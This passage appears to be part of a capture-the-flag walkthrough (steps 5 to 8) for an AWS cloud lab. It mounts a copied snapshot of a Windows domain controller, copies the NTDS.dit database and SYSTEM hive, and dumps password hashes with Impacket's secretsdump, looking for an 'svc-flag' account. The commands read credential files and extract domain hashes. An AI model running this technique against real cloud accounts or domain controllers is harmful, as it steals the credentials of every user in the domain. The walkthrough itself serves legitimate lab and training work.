 ### Step 5: Create Volume from Snapshot
Create an EBS volume from the copied snapshot:

```bash
# Create volume in the same AZ as your analysis instance
aws ec2 create-volume --profile personal \
  --availability-zone us-east-1a \
  --snapshot-id COPIED_SNAPSHOT_ID \
  --volume-type gp3
```

### Step 6: Attach Volume to Analysis Instance
Attach the volume to your Linux analysis instance:

```bash
# Attach volume to instance
aws ec2 attach-volume --profile personal \
  --volume-id VOLUME_ID \
  --instance-id YOUR_INSTANCE_ID \
  --device /dev/sdf
```

### Step 7: Mount and Extract Files
On your Linux analysis instance:

```bash
# Create mount point
sudo mkdir /mnt/dc-snapshot

# Mount the volume (read-only for safety)
sudo mount -o ro /dev/xvdf2 /mnt/dc-snapshot

# Navigate to Windows directory
cd /mnt/dc-snapshot/Windows

# Copy NTDS database and SYSTEM hive
sudo cp NTDS/ntds.dit ~/ntds.dit
sudo cp System32/config/SYSTEM ~/SYSTEM

# Change ownership
sudo chown $USER:$USER ~/ntds.dit ~/SYSTEM
```

### Step 8: Extract Hashes with Secretsdump
Use Impacket's secretsdump.py to extract password hashes:

```bash
# Install Impacket if not already installed
pip3 install impacket

# Extract hashes
secretsdump.py -system ~/SYSTEM -ntds ~/ntds.dit local -outputfile secrets

# Look for the svc-flag user hash
grep "svc-flag" secrets.ntds
```
